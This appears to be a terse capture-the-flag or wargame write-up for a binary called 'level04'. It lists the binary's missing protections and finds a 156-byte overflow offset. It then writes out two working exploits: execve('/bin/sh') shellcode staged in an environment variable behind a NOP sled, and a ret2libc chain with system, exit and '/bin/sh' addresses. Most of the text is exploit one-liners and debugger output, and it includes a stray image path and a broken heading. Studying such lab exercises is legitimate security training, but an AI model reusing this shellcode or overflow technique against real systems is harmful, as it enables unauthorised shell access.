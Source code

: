 # 

## Protection

RELRO | STACK CANARY | NX | PIE
--- | --- | --- | --- 
**Partial RELRO** | No canary found | NX disabled | No PIE

## context

set follow-fork-mode child
stopped 0x6261616f in ??
Found at offset 156 (little-endian search) likely

payload= offset + buffer address(env)

- shell =```\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80``` (21 bytes)
- buffer env = 0xffff0101

export SHELLCODE=$(python2.7 -c 'import sys; sys.stdout.write(b"\x90" * 0xffff + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')

cat <(python2.7 -c 'import sys; sys.stdout.write(b"a" * 156 + b"\x01\x01\xff\xff")') - | ./level04

Give me some shellcode, k

no exec() for you()

## Ret2Libc

cat /proc/sys/kernel/randomize_va_space
0

aslr not activated

[ buffer permettant d'atteindre l'overflow ] [ Adresse system() ] [ Adresse retour ] [ Adresse "/bin/sh" ]

info functions system
0xf7e6aed0  system

info functions exit
0xf7e5eb70  exit

info proc mapping
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.

cat <(python2.7 -c 'import sys; sys.stdout.write(b"\x90" * 156 + b"\xd0\xae\xe6\xf7" + b"\x70\xeb\xe5\xf7" + b"\xec\x97\xf8\xf7")') - | ./level04